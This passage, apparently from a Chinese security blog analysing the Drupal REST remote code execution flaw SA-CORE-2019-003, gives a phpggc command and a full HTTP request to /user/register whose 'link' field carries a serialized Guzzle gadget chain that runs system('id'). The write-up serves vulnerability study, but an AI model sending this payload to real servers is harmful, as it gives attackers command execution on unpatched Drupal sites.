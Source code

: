 之后确认源码，针对输入信息的校验其实是发生在所有的denormalize之后的所以即使不传入相关信息也可以正常触发反序列化  
  
利用 phpggc  
```
phpggc guzzle/rce1 system id --json
```  
  
如果使用/user/register 接口的话那么需要一些必要字段来通过check此次因为是REST接口所以可以，不阅读源码直接猜想得出  
```
POST /drupal/user/register?_format=hal_json HTTP/1.1
Host: 127.0.0.1
Content-Type: application/hal+json
cache-control: no-cache
Postman-Token: 258f5d68-a142-4837-b76c-b15807e84bdb
{
"link": [{"options":"O:24:"GuzzleHttp\Psr7\FnStream":2:{s:33:"u0000GuzzleHttp\Psr7\FnStreamu0000methods";a:1:{s:5:"close";a:2:{i:0;O:23:"GuzzleHttp\HandlerStack":3:{s:32:"u0000GuzzleHttp\HandlerStacku0000handler";s:2:"id";s:30:"u0000GuzzleHttp\HandlerStacku0000stack";a:1:{i:0;a:1:{i:0;s:6:"system";}}s:31:"u0000GuzzleHttp\HandlerStacku0000cached";b:0;}i:1;s:7:"resolve";}}s:9:"_fn_close";a:2:{i:0;r:4;i:1;s:7:"resolve";}}"}],
"title": ["bbb"],
"username": "213",
"password": "EqLp7rhVvsh3fhPPsJBP",
"email": "c1tas@c1tas.com",
"_links": {
"type": {"href": "http://127.0.0.1/drupal/rest/type/shortcut/default"}
}
}------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f4CbNfICAmW37ssiahhr7XHJpQQRt7lL5FYx3Oget28ZajyfFJtLDFmJhSqpZxibjn1XgNXBR4rgXW0Ze33ibht5A/640?wx_fmt=png "")  
## 0x03 参考链接  
  
Drupal core – Highly critical – Remote Code Execution – SA-CORE-2019-003 | Drupal.org  
  
[Drupal SA-CORE-2019-003 远程命令执行分析-腾讯御见威胁情报中心](https://mp.weixin.qq.com/s?__biz=MzI5ODk3OTM1Ng==&mid=2247488600&idx=2&sn=de0b6554acfcf1e250dc5382b3034236&scene=21#wechat_redirect)  
  
  
Exploiting Drupal8’s REST RCE  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6OLwHohYU7UjX5anusw3ZzxxUKM0Ert9iaakSvib40glppuwsWytjDfiaFx1T25gsIWL5c8c7kicamxw/640?wx_fmt=png "虚线阴影分割线")  
```
```  
